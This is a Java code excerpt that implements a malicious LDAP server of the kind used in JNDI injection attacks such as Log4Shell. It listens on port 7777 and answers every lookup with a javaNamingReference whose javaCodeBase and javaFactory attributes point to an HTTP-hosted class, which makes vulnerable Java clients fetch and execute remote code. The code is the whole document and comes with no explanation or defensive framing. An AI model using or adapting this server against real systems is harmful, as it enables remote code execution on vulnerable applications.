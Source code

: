 ```java
    public static void main ( String[] tmp_args ) {
        String[] args=new String[]{"http://127.0.0.1:8081/#test"};
        int port = 7777;

        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen", //$NON-NLS-1$
                    InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[ 0 ])));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
            ds.startListening();

        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }

        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }

        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
```
